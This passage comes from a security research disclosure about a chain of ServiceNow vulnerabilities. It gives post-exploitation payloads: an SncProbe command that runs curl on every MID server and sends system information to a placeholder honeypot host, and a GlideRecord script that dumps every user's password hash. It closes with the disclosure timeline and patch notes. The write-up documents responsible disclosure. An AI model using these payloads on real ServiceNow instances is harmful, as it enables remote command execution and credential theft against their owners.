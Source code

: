 ### Bonus - Going for Full Compromise

As the introduction mentions, most production setups have one or more MID
servers configured. These allow command execution by design. ServiceNow
provides the` SncProbe `class, which allows running a shell command directly
on the instance. A sample payload to get pingbacks is as follows:

    
    
    p = SncProbe.get("Command");
    p.setName("curl http://my.honeypot.server.example/?x=$(uname -a|base64 -w0)");
    p.create("*");

This will run the command once on every MID server configured. Using Burp
Suite we can verify we can access anything:

![](https://cdn.prod.website-
files.com/64233a8baf1eba1d72a641d4/66b3be03c4b7998464b613e1_668f1aa0f2d662ab8395af14_img5.png)

In the case that no MID server is configured, we can instead access the user
DB of the instance with the following commands:

    
    
    gr=new GlideRecord("sys_user");
    gr.query();
    s="";
    while(gr.next())s=s.concat(gr.user_name," : ",gr.user_password,"<br/>");
    gs.addErrorMessage(s);

This accesses the password hashes of every user on the instance:

![](https://cdn.prod.website-
files.com/64233a8baf1eba1d72a641d4/66b3be03c4b7998464b613ed_668f1aa8447281de042f3a35_img6.png)

(As a side note, it appears the only 'real' accounts are `admin` and
`aes.creator` \- the other accounts in this table seem to have dummy data in
their password hash field, likely due to being sample data within a ServiceNow
dev instance).

### Conclusion

We disclosed this chain of vulnerabilities to ServiceNow on the 14th of May,
2024.Â

  * For [CVE-2024-4879](https://www.cve.org/CVERecord?id=CVE-2024-4879) ServiceNow has already applied an update to customers. They also provide an extensive list of patched versions and hot fixes, which customers may already be on now.
  * For [CVE-2024-5178](https://www.cve.org/CVERecord?id=CVE-2024-5178) ServiceNow has applied patches to customers in June. They also provide an extensive list of patched versions and hot fixes for any customers who might have opted out of patching in June.
  * For [CVE-2024-5217](https://www.cve.org/CVERecord?id=CVE-2024-5217) ServiceNow applied patches to customers in June. They also provide an extensive list of patched versions and hot fixes for any customers who might have opted out of patching in June.

While ServiceNow implemented several mitigations to address the risk of double
evaluation in the templating system, we found a way to achieve code execution.
Even with more mitigations in place, it only takes a single unescaped
injection point to risk code execution.
